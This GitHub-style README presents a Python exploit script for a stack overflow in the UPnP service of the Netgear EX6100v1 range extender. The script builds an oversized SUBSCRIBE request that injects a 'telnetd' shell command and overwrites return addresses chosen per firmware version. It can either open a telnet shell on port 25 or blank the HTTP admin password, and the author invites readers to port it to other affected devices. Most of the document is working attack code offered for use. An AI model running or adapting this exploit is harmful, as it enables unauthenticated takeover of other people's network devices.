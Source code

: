# Netgear_product_stack_overflow

#### EX6100v1-exp

**The script of using ex6100 device is mainly written here. Because upnpd service is ported, there will be more devices affected by this vulnerability in addition to the devices officially notified. However, there are only ex6100 devices in hand, so there is only the script of using this device. The rest of the scripts can be explored by ourselves or communicated with me**

Before using the script, please determine the firmware version of the target machine. Because this script will crash the service. If the attack fails and the machine can be restarted next to it, the machine will automatically start the vulnerability service. After determining the firmware version, use the script again to succeed in the attack

```
#Aouth:doudoudedi
#please pip install pwn
from pwn import *
import sys
import os
choice=0
request=''
try:
	target_ip=sys.argv[1]
	target_version=sys.argv[2]
except:
	print("python ./exp.py ipaddress id")
	print("if you firmware version is EX6100-V1.0.2.28_1.1.138.chk or please EX6100-V1.0.2.28_1.1.136 id is 1")
	print("if you firmware version is EX6100-V1.0.2.24_1.1.134.chk id is 2")
	exit(0)

def generate_payload():
	global target_version,request,choice
	if target_version=="1": 
		system_addr=0x00422848
		change_password=0x042C550
	if target_version=="2":
		system_addr=0x422828
		change_password=0x042C530
	aim=0
	print("1.open telnetd 25\n2.change http password (NULL)")
	choice=int(input())
	if(choice==1):
		aim=system_addr
		request = b"SUBSCRIBE /gena.telnetd${IFS}-p${IFS}25;?service=" + b"1" + b" HTTP/1.0\n"
		request += b"Host: " + b"192.168.1.0:" + b"80" + b"\n"
		request += b"Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
		request += b"NT: upnp:event\n"
		request += b"Timeout: Second-1800\n"
		request += b"Accept-Encoding: gzip, deflate\n"
		request += request+b"doud"
		request += request
		request = request.ljust(0x1f00,b"a")
		request += p32(0x7fff7030)
		request = request.ljust(0x1f48-0x14,b"a")
		request += p32(aim)
	if(choice==2):
		aim=change_password
		request = b"SUBSCRIBE /gena.telnetd${IFS}-p${IFS}25;?service=" + b"1" + b" HTTP/1.0\n"
		request += b"Host: " + b"192.168.1.0:" + b"80" + b"\n"
		request += b"Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
		request += b"NT: upnp:event\n"
		request += b"Timeout: Second-1800\n"
		request += b"Accept-Encoding: gzip, deflate\n"
		request += request+b"doud"
		request += request
		request = request.ljust(0x1f00,b"a")
		request += p32(0x7fff7030)
		request += p32(0x7fff7030)*12
		request += p32(0x42C550)
		request += p32(aim)


def attack():
	p=remote(target_ip,5000)
	p.send(request)
	if(choice==1):
		os.system("telnet %s 25")
	#p.interactive()
#request += p32(0x422944)
#request += "a"*0x500
#request += p32(0x7fff7030)*8
if __name__=="__main__":
	generate_payload()
	attack()
```
example
![image-20220420111910096](./img/image-20220420170333428.png)

